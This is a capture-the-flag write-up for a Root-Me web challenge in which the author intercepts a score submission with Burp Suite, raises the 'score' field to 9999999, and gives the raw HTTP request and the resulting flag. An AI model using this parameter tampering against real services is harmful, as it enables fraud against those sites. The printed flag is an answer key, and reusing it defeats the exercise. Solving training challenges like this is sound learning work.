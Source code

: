 ```yaml
---
custom_edit_url: null
sidebar_position: 11
---
```


> Find a way to beat the top score!

![1](https://github.com/Knign/Write-ups/assets/110326359/969d8be5-78b0-4c0d-a828-25c4cc4fce00)

Let's intercept the request using Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/c90bf0f9-cb74-478d-b650-ae7a578f94a7)

We can see that the score is `723546`.

Let's send the request to the `Repeater` and set the `score` to a number than `999999`.

## HTTP Request
```
POST /web-serveur/ch56/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch56/
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697428943.14.1.1697429312.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

score=9999999&generate=Give+a+try%21
```
Finally, we have to send this modified request to the server.

![3](https://github.com/Knign/Write-ups/assets/110326359/6254eeae-6d00-410b-830f-873fb72ed28f)

## Flag
```
H7tp_h4s_N0_s3Cr37S_F0r_y0U
```
